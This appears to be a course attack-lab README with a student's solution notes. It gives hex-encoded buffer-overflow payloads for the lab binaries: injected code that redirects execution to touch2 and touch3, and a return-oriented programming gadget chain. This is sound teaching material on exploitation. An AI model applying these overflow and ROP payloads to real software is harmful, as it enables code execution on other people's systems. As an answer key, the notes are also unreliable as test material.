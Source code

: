 This file contains materials for one instance of the attacklab.

Files:

    ctarget

Linux binary with code-injection vulnerability.  To be used for phases
1-3 of the assignment.

    rtarget

Linux binary with return-oriented programming vulnerability.  To be
used for phases 4-5 of the assignment.

     cookie.txt

Text file containing 4-byte signature required for this lab instance.

     farm.c

Source code for gadget farm present in this instance of rtarget.  You
can compile (use flag -Og) and disassemble it to look for gadgets.

     hex2raw

Utility program to generate byte sequences.  See documentation in lab
handout.

# note
- generate raw: `./hex2raw < ctarget.inp > raw1.inp`
- debug that raw in gdb: `r < raw1.inp`

# Solution
### Phase 1:
- filling 0x18 bytes to override the return address of stack, add a few padding

### Phase 2:

48 83 ec 08 // sub $0x8,%rsp
48 c7 44 24 00 02 17 40 00  // movq   $0x00401702,0x0(%rsp)
c3// ret
00 00 00 00 00 // padding
88 74 61 55 // address of first ins below



ret -> to next first of instruction in the stack as string
88 74 61 55 // address of first ins below

mov $50fa73aa, $rdi
bf aa 73 fa 50 // bf = set value to rdi

rsp grow down to put phase two as the old position
48 83 ec 08 // sub $0x8,%rsp

put phase address to stack
02 17 40 00
48 c7 44 24 00 02 17 40 00 
48 c7 44 24 08 20 45 60 00	movq   $0x604520,0x8(%rsp)

ret
c3

#### optimization
this phase can be shorter by override ret for stack, don't need sub rsp those stuff, google for better Solution

### Phase 3:
48 c7 c7 b0 74 61 55 // set address of string to rdi
c3 // ret
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
88 74 61 55 00 00 00 00 // first ret (first rsp), jump to above ins
d6 17 40 00 00 00 00 00 // second ret (2nd rsp), jump to touch3
35 30 66 61 37 33 61 61 // string value of cookie
00


### Phase 4
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
7b 18 40 00 00 00 00 00 // first gadget - popq rax
aa 73 fa 50 00 00 00 00 // store cookie here
66 18 40 00 00 00 00 00 // second gadget - mov rax rdi
02 17 40 00 00 00 00 00 // touch2 address

